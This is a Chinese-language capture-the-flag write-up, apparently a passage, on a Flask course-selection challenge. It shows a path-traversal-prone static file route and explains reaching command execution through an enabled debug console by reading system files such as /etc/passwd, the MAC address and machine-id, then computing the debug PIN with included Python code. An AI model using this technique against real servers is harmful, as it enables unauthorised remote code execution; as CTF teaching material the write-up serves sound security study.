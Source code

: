 ![](https://ws1.sinaimg.cn/large/64ef14dcgy1fyi1fdbkonj228017ygtf.jpg)

就一个登录注册界面。然后给了一个`www.zip`的附件，放出了关键源码。

然后，随便点一个选课，就报错了。

![](https://ws1.sinaimg.cn/large/64ef14dcgy1fyi1lzc5jej228017qdry.jpg)

再看看源码，其中在`user.py`中发现

```python
@users.route('/asserts/<path:path>')
def static_handler(path):
    filename = os.path.join(app.root_path,'asserts',path)
    if os.path.isfile(filename):
        return send_file(filename)
    else:
        abort(404)
```



#### 解题

这个题熟悉`flask`的会发现，那个报错页面其实就是开启了`debug`的界面，我们可以利用`pin`码来认证`debug`界面进行命令执行。

而关于`pin`码，我看赛时很多队伍都采取爆破的方式，导致输入过多，就不能再输入了。就导致我赛时只能人肉运维重置`web2`。

```
md5_list = [
    'root', #当前用户，可通过读取/etc/passwd获取
    'flask.app', #一般情况为固定值
    'Flask', #一般情况为固定值
    '/usr/local/lib/python2.7/dist-packages/flask/app.pyc', #可通过debug错误页面获取
    '2485377892354', #mac地址的十进制，通过读取/sys/class/net/eth0/address获取mac地址  如果不是映射端口 可以通过arp ip命令获取
    '0c5b39a3-bba2-472c-a43d-8e013b2874e8' #机器名，通过读取/proc/sys/kernel/random/boot_id 或/etc/machine-id获取
    ]
```

生成`pin`码的代码

```python
def get_pin(md5_list):
	h = hashlib.md5()
	for bit in md5_list:
		if not bit:
			continue
		if isinstance(bit, unicode):
			bit = bit.encode('utf-8')
		h.update(bit)
	h.update(b'cookiesalt')
	h.update(b'pinsalt')
	num = ('%09d' % int(h.hexdigest(), 16))[:9]
	for group_size in 5, 4, 3:
		if len(num) % group_size == 0:
			rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
						  for x in range(0, len(num), group_size))
			break
	else:
		rv = num
	return rv
```
